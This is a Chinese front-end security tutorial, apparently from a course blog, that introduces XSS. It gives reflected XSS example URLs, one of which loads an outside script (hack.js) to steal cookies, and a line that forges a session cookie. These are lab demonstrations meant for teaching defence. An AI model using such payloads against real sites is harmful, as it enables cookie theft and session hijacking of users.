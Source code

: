 ```yaml
---
title: 11. 前端安全 常见攻击手段攻防演练
date: 2021-04-23
tags:
 - node
categories:
 - node
sidebar: 'auto'
---
```


::: tip
**本节重点**
- XSS (实施 + 防御)
- CSRF (实施 + 防御)
- 点击劫持 (实施 + 防御)
- SQL注入 (实施 + 防御)
- OS注入 (实施 + 防御)
- 了解请求劫持
- 了解DDOS
:::

## XSS
::: warning
Cross Site Scripting

跨站脚本攻击

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS重叠，所以只能叫 XSS。跨站脚本攻
击是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的非本站点HTML标签或JavaScript进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片
:::

### XSS攻击分类
- 反射型 - url参数直接注入
```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

// 短域名伪造 https://dwz.cn/
// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```
